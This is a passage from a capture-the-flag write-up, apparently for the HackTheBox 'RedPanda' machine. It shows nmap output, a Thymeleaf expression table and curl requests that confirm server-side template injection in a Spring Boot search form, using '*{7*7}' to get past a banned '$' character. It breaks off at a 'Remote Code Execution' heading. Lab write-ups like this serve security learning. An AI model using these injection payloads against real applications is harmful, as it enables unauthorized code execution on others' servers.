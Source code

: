 Banned characters suggests we're on the right track. Looking at the nmap scan from earlier we see:

```text
|_http-title: Red Panda Search | Made with Spring Boot
```

Searching for Spring Boot we find [this](https://spring.io/projects/spring-boot) and [this](https://docs.spring.io/spring-framework/docs/3.2.x/spring-framework-reference/html/overview.html):

```text
Spring Framework is a Java platform that provides comprehensive infrastructure support for developing Java applications. Spring handles the infrastructure so you can focus on your application.
```

A search for **Spring Boot SSTI** found [this](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/) which has a useful table:

```text
${...}: Variable expressions – in practice, these are OGNL or Spring EL expressions.
*{...}: Selection expressions – similar to variable expressions but used for specific purposes.
#{...}: Message (i18n) expressions – used for internationalization.
@{...}: Link (URL) expressions – used to set correct URLs/paths in the application.
~{...}: Fragment expressions – they let you reuse parts of templates.
```

Trying variations we at last find our path forward:

![redpanda-ssti-working](/assets/images/2022-07-16-15-46-28.png)

Using an asterisk instead of a dollar works, we can switch to curl now to play with it:

```sh
┌──(root㉿kali)-[~/htb/redpanda]
└─# curl -i -s -k -X POST --data-binary 'name=pencer' 'http://10.10.11.170:8080/search'
<SNIP>
  <div class="results">
    <h2 class="searched">You searched for: pencer</h2>
```

A normal search works, try for SSTI:

```sh
┌──(root㉿kali)-[~/htb/redpanda]
└─# curl -i -s -k -X POST --data-binary 'name=*{7*7}' 'http://10.10.11.170:8080/search'
<SNIP>
  <div class="results">
    <h2 class="searched">You searched for: 49</h2>
```

## Remote Code Execution

